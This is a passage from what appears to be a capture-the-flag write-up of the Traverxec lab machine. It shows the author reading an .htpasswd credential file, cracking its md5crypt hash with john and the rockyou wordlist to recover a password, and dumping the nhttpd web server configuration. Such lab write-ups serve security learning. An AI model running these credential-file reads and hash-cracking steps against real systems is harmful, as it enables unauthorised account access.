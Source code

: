 We display the content of the `.htpasswd` file and found a hash.

```
cat /var/nostromo//conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

We load it into john an crack it with the rockyou dictionary. The password is
"Nowonly4me".

```
john hash -w=rockyou.txt
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
```

Let us take a closer look at the `nhttpd.conf` file.

```
cat /var/nostromo/conf/nhttpd.conf
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

lopid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```
